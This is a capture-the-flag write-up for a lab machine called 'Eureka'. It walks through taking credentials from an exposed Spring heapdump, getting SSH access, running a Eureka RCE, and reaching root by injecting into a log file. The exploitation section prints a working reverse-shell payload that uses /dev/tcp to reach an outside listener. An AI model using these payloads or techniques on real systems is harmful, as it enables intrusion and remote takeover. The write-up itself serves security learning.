 # 🎣Eureka

## 🧠Summary
> Initial Nmap scan showed ports 22 (SSH) and 80 (HTTP) open. The website hosted a furniture shop. During enumeration, a suspicious /heapdump endpoint was discovered and downloaded. Extracting strings revealed credentials, which successfully worked for SSH login. Deeper exploration of the file system led to a sensitive config file containing Eureka dashboard credentials. Accessing port 8761 exposed a Spring Eureka admin panel. Using a crafted curl + nc payload inspired by a known Eureka RCE technique, a shell was obtained with a second user. Further privilege escalation was achieved by exploiting a log analyzer script, injecting a reverse shell payload into application.log. Root shell and flag were finally obtained.

## ↘️ASCII Visual
```text
[ Nmap ] → 80, 22  
      |  
      v  
[ Port 80 - Furniture site ]  
      |  
  dirsearch → /heapdump  
      |  
download + strings → creds  
      |  
      v  
[ SSH Access (user1) ]  
      |  
  explore → /var/www/web/Eureka-Sever/…/application.yaml  
      |  
  → creds for port 8761 (Eureka Dashboard)  
      |  
      v  
POST RCE payload (curl + nc)  
      |  
Decode dumped creds (CyberChef)  
      |  
[ SSH Miranda-Wise ] → user.txt  
      |  
      v  
Privilege Escalation → log_analyse.sh  
inject revshell into application.log  
      |  
[ listener ] ← root shell → root.txt
```

## 🔎Nmap scan
- Ran an nmap scan to discover services:
  ![](./screenshots/nmap_scan.png)
- Found only:
    - 22/tcp - SSH
    - 80/tcp - HTTP

## 🌐Web Enumeration
- Used dirsearch to find interesting endpoint
- Found an endpoint called actuator/heapdump
  ![](./screenshots/endpoint.png)
- Went to the endpoint to download a binary file
- Used strings command and found username and password

## 📌Loop hole
- SSH into the machine using the obtained creds
- Explored the machine and found a interesting file called application.yaml
  ![](./screenshots/application.png)
- Found an open port also in the found file entered the website using the open port and found a webpage called spring eureka
  ![](./screenshots/port8761-webpage.png)
- Found a medium post that talks about eureka RCE 👉 [Eureka-RCE](https://medium.com/@mfocuz/hacking-netflix-eureka-8e5957b2f539)
- After that wrote a custom script in bash using (nc + curl)
  ![](./screenshots/exploit.png)
- The link to custom script 👉 [exploit.sh](./exploit.sh)
- I got the password and username the password was encrypted so used cyberchef to decode it and found the password
  ![](./screenshots/decrypt.png)
- SSH into the machine as new user and got the user flag

## 🧪Exploitation
- Used all the known privilege escalation commands and found nothing useful so manually checked the files and found an interesting file called log_analyse.sh
- Cat the file to find that the file reads and execute the content in the file path /var/www/web/user-management-service/log/application.log
- So wrote a reverse script to opened a listener in my system
  ```bash
  echo 'HTTP Status: x[$(/bin/bash -i >& /dev/tcp/10.10.16.31/4444 0>&1)]' > /var/www/web/user-management-service/log/application.log
  ```
  > (Note:First delete the content in the file and then use the above command)
- Got the reverse shell as root and dumped the root flag 🚩
